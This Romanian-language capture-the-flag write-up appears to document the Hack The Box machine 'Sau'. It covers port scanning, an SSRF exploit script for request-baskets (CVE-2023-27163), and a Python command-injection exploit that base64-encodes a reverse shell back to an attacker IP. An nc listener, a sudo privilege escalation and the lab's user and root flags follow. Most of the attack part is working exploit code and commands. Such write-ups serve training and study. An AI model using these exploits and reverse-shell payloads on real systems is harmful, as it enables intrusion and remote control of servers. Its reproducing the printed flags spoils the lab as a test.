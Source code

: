 1. Scanam mașina pentru a vedea porturile deschise.
```shell
sudo nmap -sSCV -T 4 10.10.11.224 -oN ~/Hackthebox/Labs/Sau/nmap.scan
```
![[Pasted image 20231107075853.png]]
Vedem următoarea informație sunt deschise 3 porturi [[Tools/ssh]] el e si pe portul 22 [[http request smuggling]] pe 80 si încă ceva pe 5555 la priva vedere este tot un [[http request smuggling]].
2. Accesam [[IP]] cu portul suspect:
![[Pasted image 20231107080107.png]]
3. Cel mai suspect este următoarea informație->
![[Pasted image 20231107131300.png]]
`request-baskets| Version 1.2.1`
Aceasta versiune este vulnerabila pentru tipul de atac [[SSRF]] Server-Side Request Forgery.
Daca facem un search pe google.com vom găsi vulnerabilitatea data.
```bash
#!/bin/bash  
  
echo -e "Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163\n";  
  
if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then  
   help="Usage: CVE-2023-27163.sh <URL> <TARGET>\n\n";  
   help+="This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,\n";  
   help+="which will act as a proxy to other services and servers.\n\n";  
   help+="Arguments:\n" \  
   help+=" URL            main path (/) of the server (eg. http://127.0.0.1:5000/)\n";  
   help+=" TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)\n\n";  
   help+="More info at https://github.com/entr0pie/CVE-2023-27163.";  
  
   echo -e "$help";  
   exit 1;  
fi  
  
URL=$1  
ATTACKER_SERVER=$2  
  
if [ "${URL: -1}" != "/" ]; then  
   URL="$URL/";  
fi;  
  
BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");  
  
API_URL="$URL""api/baskets/$BASKET_NAME";  
  
PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";  
  
echo "> Creating the \"$BASKET_NAME\" proxy basket...";  
  
if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then  
   echo "> FATAL: Could not properly request $API_URL. Is the server online?";  
   exit 1;  
fi;  
  
BASKET_URL="$URL$BASKET_NAME";  
  
echo "> Basket created!";  
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";  
  
if ! jq --help 1>/dev/null; then  
   echo "> Response body (Authorization): $response";  
else  
   echo "> Authorization: $(echo "$response" | jq -r ".token")";  
fi;  
  
exit 0;
```
Jos mai este si fișierul.
![[CVE-2023-27163.sh]]
4. După instrucții facem un start la script
```shell
./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![[Pasted image 20231107132245.png]]
In cazul nostru primul link este victima cu portul 55555 al 2 link este [[IP]] adresa pentru localhost.
Accesăm linkul pentru ca sa vedem ce este pe pagina care este pe portul 80.
![[Pasted image 20231107132422.png]]
5. Pe google cu un seach primim 
![[Pasted image 20231107134026.png]]
 Aici este exploitul. 
```python
 '''  
 ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███     
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒  
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒  
 ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄     
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒  
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░  
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░  
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░    
     ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░        
'''  
  
import sys;  
import os;  
import base64;  
  
def main():  
       listening_IP = None  
       listening_PORT = None  
       target_URL = None  
  
       if len(sys.argv) != 4:  
               print("Error. Needs listening IP, PORT and target URL.")  
               return(-1)  
  
       listening_IP = sys.argv[1]  
       listening_PORT = sys.argv[2]  
       target_URL = sys.argv[3] + "/login"  
       print("Running exploit on " + str(target_URL))  
       curl_cmd(listening_IP, listening_PORT, target_URL)  
  
def curl_cmd(my_ip, my_port, target_url):  
       payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.  
AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno  
(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''  
       encoded_payload = base64.b64encode(payload.encode()).decode()  # enco  
de the payload in Base64  
       command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_pa  
yload}\"+|+base64+-d+|+sh`'"  
       print("comm:",command)  
       os.system(command)  
  
if __name__ == "__main__":  
 main()
```
Fisierul complex
![[exploit.py]]
5. Rulam vulnerabilitatea ca sa primim revers shell-ul nostru:
```bash
python3 exploit.py 10.10.14.25 9001 http://10.10.  
11.224:55555/tgetkl
```
Acum aven nevoie sa ascultam traficul:
```bash
nc -lvnp 9001
```
![[Pasted image 20231107191913.png]]
![[Pasted image 20231107192048.png]]
Flag user: `c28c26065508f8300bfd03bdb7069ffb`
6. Rulam comanda:
```bash
sudo -l 
```
![[Pasted image 20231107192150.png]]
Avem si posibilitatea sa primim root:
![[Pasted image 20231107192249.png]]
Deci avem root:
![[Pasted image 20231107192537.png]]
![[Pasted image 20231107192548.png]]
![[Pasted image 20231107192611.png]]
Si flagul final `21586ecaa63bc52bda009a0627d9aeaa`
